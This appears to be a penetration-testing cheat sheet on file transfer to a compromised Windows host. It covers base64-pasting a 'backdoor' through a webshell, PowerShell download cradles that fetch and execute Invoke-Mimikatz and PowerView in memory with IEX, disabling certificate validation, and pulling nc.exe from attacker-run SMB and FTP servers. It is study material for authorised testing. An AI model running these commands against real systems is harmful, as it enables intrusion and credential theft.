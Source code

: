 
## 1) PowerShell Base64 Encode & Decode
if you have access to terminal using a webshell you can 


- base64 a file that you want to transfer
```bash
$ cat backdoor| base64 -w 0 ; echo
YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo=


$ md5sum shell
2eebc05b20651f70efb2d195bbdaf2c2  shell
```


- paste it in powershell
```powershell
PS C:\user> [IO.File]::WriteAllBytes("C:\Users\public\Desktop\testing\backdoor",[Convert]::FromBase64String("YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo="))


PS C:\user> Get-FileHash .\backdoor -Algorithm MD5

Algorithm       Hash                                                                   Path                                 
---------       ----                                                                   ----                                 
MD5             2EEBC05B20651F70EFB2D195BBDAF2C2  
```



**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## 2) PowerShell HTTP Downloads

### 1) PowerShell DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

### 2) PowerShell DownloadString - Fileless Method
- `IEX` It is a cmdlet used to evaluate or execute a string as a PowerShell command.
```powershell
PS C:\user> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\user> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### 3) PowerShell Invoke-WebRequest
```powershell
PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing | IEX
```

if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\user> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
## 3) PowerShell SMB Downloads
- create smbserver
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare

sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare -user test -password test
```
- copy files using powershell
```powershell
PS C:\user> copy \\192.168.220.133\share\nc.exe


PS C:\user> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

PS C:\user> copy n:\nc.exe
        1 file(s) copied.
```
## 4) PowerShell FTP Downloads

```bash
sudo python3 -m pyftpdlib --port 21
```

- Download Using PowerShell
```powershell
PS C:\user> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- Download using Command File for the FTP Client and Download the Target File
```powershell
C:\user> echo open 192.168.49.128 > ftpcommand.txt
C:\user> echo USER anonymous >> ftpcommand.txt
C:\user> echo binary >> ftpcommand.txt
C:\user> echo GET file.txt >> ftpcommand.txt
C:\user> echo bye >> ftpcommand.txt
C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\user>more file.txt
This is a test file
```
